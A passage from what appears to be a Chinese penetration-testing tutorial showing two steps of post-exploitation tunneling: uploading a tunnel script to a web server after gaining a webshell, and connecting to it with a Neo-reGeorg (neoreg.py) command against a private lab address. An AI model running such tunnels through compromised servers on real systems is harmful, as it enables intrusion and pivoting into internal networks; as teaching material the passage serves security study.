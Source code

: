 2、在获取 webshell 的情况下，根据网站语言类型上传相应的脚本值 web 服务器中

[![](assets/1708095858-d4c1226e21dee52b81e90d8319535b29.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502203909-559f78d8-e8e6-1.png)

3、连接隧道

```bash
python3 neoreg.py -k password -u http://192.168.11.133:8003/tunnel.php -p 2333
```

[![](assets/1708095858-36d056244ed41dba1c51cc453ae07bc2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502203917-5a664e6e-e8e6-1.png)
